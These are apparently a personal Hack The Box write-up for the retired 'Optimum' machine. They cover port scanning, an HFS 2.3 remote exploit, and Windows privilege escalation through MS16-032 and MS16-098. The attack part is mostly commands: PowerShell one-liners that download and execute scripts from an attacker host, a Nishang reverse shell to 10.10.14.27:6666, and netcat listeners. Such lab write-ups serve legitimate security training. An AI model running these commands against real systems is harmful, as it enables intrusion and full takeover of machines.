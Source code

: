 # Optimum

## scanning

```bash
sudo nmap -p- -sS --open -vvv --min-rate 5000 10.10.10.8 -oG allPorts -n -Pn
nmap -sC -sV -p 80 -Pn -n 10.10.10.8 -oN targeted
```
![204738.png](204738.png)

## 80

```bash
searchsploit hfs 2.3
searchsploit -m windows/remote/39161.py
```

we use the exploit using 3 terminals with this command
```bash
python 39161.py
sudo python3 -m http.server 80
sudo nc -lvp 443
```
it should be seen like this.
![152819.png](152819.png)

yo probably should use more than one time the script

``type C:\Users\kostas\Desktop\user.txt.txt``


## privilege escalation

we use systeminfo in the windows exploit suggester

```bash
./windows-exploit-suggester.py --database 2020-10-25-mssb.xls --systeminfo /home/gato/Documentos/htb/Retired/Optimum/content/systeminfo.txt
```
![014308.png](014308.png)

### MS16-032

MS16-032 empire
https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1
```bash
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1
```
we add this line to the exploit
``Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.27/Invoke-PowerShellTcp.ps1')"``


Powershell tcp (nishang)
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
we add this line to the script
``Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 6666``

Now we use a python http server and listen in port 6666 with nc
```bash
sudo python3 -m http.server 80

nc -lvp 6666
```

on victim machine
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.27/Invoke-MS16032.ps1');
```
![020506.png](020506.png)

we have a problem because we are using nc with 32 bits and the machine is 64 bits, so we are going to use powershell from 32bits of the victim and we use this command
```
C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.27/Invoke-MS16032.ps1');
```
![025116.png](025116.png)
Now we are nt authority\system ;)

### MS16-098

we see in windows exploit suggester
https://www.exploit-db.com/exploits/41020/

![023933.png](023933.png)

![023435.png](023435.png)

```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```
we use http server of python

```bash
sudo python3 -m http.server 80
```

victim machine
```bash
powershell wget http://10.10.14.27/41020.exe -OutFile 41020.exe
41020.exe
```
![021658.png](021658.png)
nt authority\system again uwu

### flags

```
type C:\Users\kostas\Desktop\user.txt.txt
type C:\Users\Administrator\Desktop\root.txt
```